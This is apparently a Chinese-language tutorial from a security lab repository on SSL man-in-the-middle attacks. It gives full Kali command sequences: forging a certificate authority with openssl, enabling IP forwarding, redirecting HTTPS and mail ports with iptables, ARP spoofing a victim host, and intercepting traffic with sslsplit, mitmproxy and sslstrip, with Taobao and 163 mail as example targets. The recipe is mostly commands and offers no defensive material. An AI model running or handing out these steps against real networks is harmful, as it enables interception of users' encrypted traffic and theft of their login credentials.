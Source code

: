 
# SSL 中间人攻击


* SSL 中间人攻击
* sslsplit
* Mitmproxy
* sslstrip

## SSL 中间人攻击
* 攻击者未与客户端和服务器通信链路中
1. ARP
1. DHCP
1. 修改网关
1. 修改 dns
1. 修改 hosts
1. ICMP、STP、OSPF

* 攻击过程
![ssl](./img/ssl.jpg)

* 攻击的前提
1. 客户端已经信任伪造证书颁发机构
1. 攻击者控制了合法证书颁发机构
1. 客户端控制了合法证书颁发机构
1. 客户端程序禁止了显示证书错误告警信息
1. 攻击者已经控制了客户端，并强制其信任伪造证书


## sslsplit
* 简介
> 透明SSL中间人攻击工具  
  对客户端伪装成服务器，对服务器伪装成普通客户端  
  伪装服务器需要伪造证书，需要现在本地生成伪造证书  
  支持 SSL 加密的 SMTP、POP3、FTP等通信中间人攻击  


* 利用openssl 生成证书私钥
``` 
root@kali:~# openssl genrsa -out ca.key 2048
    Generating RSA private key, 2048 bit long modulus
    ............................................+++
    ...+++
    e is 65537 (0x010001)

```
* 利用私钥签名生成证书
``` 
root@kali:~# openssl req -new -x509 -days 1096 -key ca.key -out ca.crt
    You are about to be asked to enter information that will be incorporated
    into your certificate request.
    What you are about to enter is what is called a Distinguished Name or a DN.
    There are quite a few fields but you can leave some blank
    For some fields there will be a default value,
    If you enter '.', the field will be left blank.
    -----
    Country Name (2 letter code) [AU]:CN
    State or Province Name (full name) [Some-State]:jilin   
    Locality Name (eg, city) []:changchun
    Organization Name (eg, company) [Internet Widgits Pty Ltd]:alibaba
    Organizational Unit Name (eg, section) []:ali
    Common Name (e.g. server FQDN or YOUR name) []:alibaba
    Email Address []:123456@163.com

```

* 攻击者开启路由功能
``` 
root@kali:~# vim /etc/sysctl.conf
net.ipv4.ip_forward=1
```

* 配置 iptables 规则
``` 
# 查看规则
root@kali:~# iptables -t nat -L -n

# 清空规则
root@kali:~# iptables -t nat -F

# 查看 80 和 443 端口是否有占用
root@kali:~# netstat -tulnp | grep 80
root@kali:~# netstat -tulnp | grep 443

# 编写规则
# PREROUTING：路由生效之前执行规则

# 发给 80 端口的流量转发给 8080
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080

# 发给 443 端口的流量转发给 8443
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443

# MSA：邮件提交代理
iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443 

# SMTPS：简单邮件传输
iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443 

# IMAPS：接收邮件
iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443 

# POP3S：邮件传输
iptables -t nat -A PREROUTING -p tcp --dport 995 -j REDIRECT --to-ports 8443 

iptables -t nat -L -n

```

* 查看被攻击者的机器
``` 
IPv4 地址 . . . . . . . . . . . . : 10.10.10.133
子网掩码  . . . . . . . . . . . . : 255.255.255.0
默认网关. . . . . . . . . . . . . : 10.10.10.2
DHCP 服务器 . . . . . . . . . . . : 10.10.10.254

```

* kali 实现 arp 欺骗
``` 
# kali IP：10.10.10.131
# kali MAC：00:0c:29:89:71:eb 

# 向局域网广播，网关 10.10.10.2 的 MAC 地址为本机 的 MAC：0:c:29:89:71:eb
root@kali:~# arpspoof -i eth0 -t 10.10.10.133 -r 10.10.10.2

```

* 启动 sslsplit 进行攻击
1. 创建目录
``` 
root@kali:~# mkdir -p /root/test/logdir/
```

2. 侦听 8080 和 8443
``` 
sslsplit -D -l connect.log -j /root/test -S /root/test/logdir -k ca.key -c ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080
```

3. 被攻击者访问 https 网站
``` 
https://www.taobao.com

```

4. 攻击者查看捕获的内容
   
5. 被攻击者访问 163 邮箱

## Mitmproxy
* kali 实现 arp 欺骗
``` 
# kali IP：10.10.10.131
# kali MAC：00:0c:29:89:71:eb 

# 向局域网广播，网关 10.10.10.2 的 MAC 地址为本机 的 MAC：0:c:29:89:71:eb
root@kali:~# arpspoof -i eth0 -t 10.10.10.133 -r 10.10.10.2

```
* 防火墙规则
``` 
# Mitmproxy 只支持在 8080 侦听
iptables -t nat -F
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080

```

* mitmproxy 启动
``` 
mitmproxy -T --host -w mitmproxy.log

```

## sslstrip
* 简介
> 与前两种工具不同，将客户端到中阿金人之间的流量变为明文  
  sslstrip -l 8080

* kali 实现 arp 欺骗
``` 
# kali IP：10.10.10.131
# kali MAC：00:0c:29:89:71:eb 

# 向局域网广播，网关 10.10.10.2 的 MAC 地址为本机 的 MAC：0:c:29:89:71:eb
root@kali:~# arpspoof -i eth0 -t 10.10.10.133 -r 10.10.10.2

```

* 攻击者启动 sslstrip

``` 
root@kali:~# sslstrip -l 8080
sslstrip 0.9 by Moxie Marlinspike running...

```

* 查看日志
``` 
root@kali:~# cat sslstrip.log 

```

